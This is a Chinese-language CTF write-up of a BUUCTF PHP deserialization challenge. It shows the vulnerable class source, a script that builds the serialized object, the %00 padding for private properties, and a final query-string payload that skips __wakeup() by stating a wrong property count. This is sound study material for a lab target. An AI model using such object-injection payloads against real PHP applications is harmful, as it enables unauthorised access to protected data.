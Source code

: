 ### PHP 个数不等绕过__wakeup()

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b18de9d0e0a243d4ffc65f.jpg)

打开网页给出了备份提示

![](https://pic1.imgdb.cn/item/67b1fc87d0e0a243d4ffe1e3.jpg)

扫后台发现 ZIP 文件

![](https://pic1.imgdb.cn/item/67b1fc9ad0e0a243d4ffe1e5.jpg)

下载下来打开 index.php 拿到源码（flag.php 是假的）

![](https://pic1.imgdb.cn/item/67b1fcafd0e0a243d4ffe1e6.jpg)

看到了反序列化，接下来去看 class.php

```
__wakeup 魔术方法：当对象反序列化时，会触发该方法终止脚本执行

__destruct 析构函数：当对象销毁时调用
```

```php
<?php
include 'flag.php';
 
 
error_reporting(0);
 
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
 
    function __wakeup(){
        $this->username = 'guest';
    }
 
    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();
 
             
        }
    }
}
?>
```

我们需要传入 username = admin，password = 100，于是构造反序列化

```php
<?php
 
class Name{
    private $username = 'nonono';
    private $password = 'yesyes';
 
    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
}
$a = new Name('admin', 100);
var_dump(serialize($a));
 
?>
```

还没有结束，因为类的两个属性声明为 private，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见

所以要在此基础上补上 %00 的空字符

```
%00Name%00username

%00Name%00password
```

最后是绕过 __wakeup()

当反序列化中对象属性的个数和真实的个数不等时，__wakeup() 就会被绕过，所以修改使其不相等即可

```php
?select=O:4:"Name":3:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```

![](https://pic1.imgdb.cn/item/67b20117d0e0a243d4ffe291.png)